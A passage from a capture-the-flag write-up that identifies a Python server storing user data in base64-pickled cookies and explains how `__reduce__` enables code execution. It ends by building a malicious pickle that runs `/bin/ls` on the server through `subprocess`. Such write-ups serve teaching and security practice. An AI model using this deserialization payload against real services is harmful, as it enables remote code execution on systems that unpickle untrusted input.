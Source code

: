 We can also look at the server's response headers, and verify the server framework is Werkzeug sitting atop Python 3.8.2. This verifies our assumption that the server is running Python, and may be vulnerable to pickle attacks if the server code is not written properly (we're in a CTF - it isn't written properly on purpose).

<img class="center" src="/ta/img/airgap-2020/gerkinz_server_header.png" />

The cookie appears to be base64, so let's decode it and unpickle it. 
```python
import base64, pickle

pickle.loads(base64.b64decode("gASVSQAAAAAAAAB9lCiMBG5hbWWUjBFoZWxsbyBpbWphYy5pbi90YZSMCWxhc3Rsb2dpbpSMGjIwMjAtMDUtMDVUMDc6MDM6MzUuMDIyMTg0lHUu"))
# => {'name': 'hello imjac.in/ta', 'lastlogin': '2020-05-05T07:03:35.022184'}
```

[That's a bingo!](https://www.youtube.com/watch?v=O5s3Oj2cPgc) The code on the server side appears to be using pickle for storing and loading user data. We know pickle is vulnerable, so all we have to do now is exploit it...

### How pickle works
Pickle converts objects into a serializable form. Python being python, we can also tell python how we want a certain type to be pickled, and we do this through the `__reduce__` method.

```python
class MyType:
  def __reduce__(self):
    pass   # TODO: Something
```

The [python pickle docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) state that the reduce method should return either a string, or preferably a tuple. The tuple takes the form of a callable, its arguments, as well as a bunch of other optional details that describe how to reconstruct the object upon load (on load, the callable will be called to construct the object), allowing for dynamic logic inside of a pickle. **This also opens the door for arbitrary code execution**.

```python
import pickle

class MyType:
  def __reduce__(self):
    return (print, ("Hello World!",))

pickle.loads(pickle.dumps(MyType()))
# => "Hello World!"
```

### Popping the flag
With this knowledge of pickle, we can now start running arbitrary code on the server. We could launch a reverse shell, but that's a bit overkill for this. Let's do a simple `ls` and find out what we're dealing with.

```python
import pickle, base64

class MyType:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, ('/bin/ls',))

p = pickle.dumps(dict(name=MyType(), lastlogin='2020-05-05T07:03:35.022184'))
print(base64.b64encode(p).decode('ASCII'))
# => gAN9cQAoWAQAAABuYW1lcQFjc3VicHJvY2VzcwpjaGVj.....
```
